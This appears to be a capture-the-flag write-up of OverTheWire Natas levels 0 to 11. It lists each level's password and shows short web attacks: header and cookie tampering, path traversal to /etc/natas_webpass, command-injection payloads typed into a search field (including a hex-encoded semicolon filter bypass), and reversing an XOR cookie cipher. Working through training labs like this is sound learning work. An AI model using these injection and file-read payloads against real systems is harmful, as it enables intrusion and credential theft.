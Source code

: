 ## Natas Level 0
Inspect
![Alt text](image.png)

## 0 → Level 1
Inspect
```
h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
```

## Level 1 → Level 2
http://natas2.natas.labs.overthewire.org/files/
 
Is accessible.
```
G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
```

## Level 2 → Level 3
http://natas3.natas.labs.overthewire.org/s3cr3t/  
Is accessible.

```
natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

## Level 3 → Level 4
I used burp to edit the referer
![Alt text](image-1.png)
```
Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD 
```

## Level 4 → Level 5
Change coockie value to 1
![Alt text](image-2.png)
```
fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

## Level 5 → Level 6
The source indicated we are including a file
```php
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

```
So I added to the url path and found the secret there.
![Alt text](image-3.png)
```
jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```
## Level 6 → Level 7
```
Following the description in the comments.
?page=/etc/natas_webpass/natas8
```
```
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB 
```

## Level 7 → Level 8
I just reversed this 
```php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```
decode of `3d3d516343746d4d6d6c315669563362` is `==QcCtmMml1ViV3b`  
reverse: `b3ViV1lmMmtCcQ==`  
decode the reverse: `oubWYf2kBq`
```
Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```

## Level 8 → Level 9
I puted this in the search bar
```bash
k ;cat /etc/natas_webpass/natas10; echo
```
```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

## Level 9 → Level 10
; is not allowed but the ascii value if ; is 3B so I wrote
```bash
k $(printf "\\x3B") cat /etc/natas_webpass/natas11 $(printf "\\x3B") echo
```
```
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

## Level 10 → Level 11
Data is loaded from cookies

```php
function loadData($def) {
    global $_COOKIE;
    .
    .
    .
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    .
    .
    .
}

$data = loadData($defaultdata);
```
I needed to reverse the encryption. Initially, I had the color 0xffffff. After decoding the saved data of the cookie and changing it to 0x000000, I observed the difference.
```
for 0xffffff
0l;$$98-8=?#9*jvi 'ngl*+(!$#9lrnh(.*-(.n67
for 0x000000
0l;$$98-8=?#9*jvi 'ngl*+(!$#9lrnh~x|{~xn67
```
It's easy to notice that the changed characters were `~x|{~,` and the repeated key is also quite apparent.
```php 
function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}
```
Breaking the encryption was straightforward because of the property that if a ^ b = c, then a ^ c = b. You can access the Python script [here](./natas11/reverse.py) that I used to re-encrypt it, edit the cookie, and obtain the solution.

```
pass
YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG
```
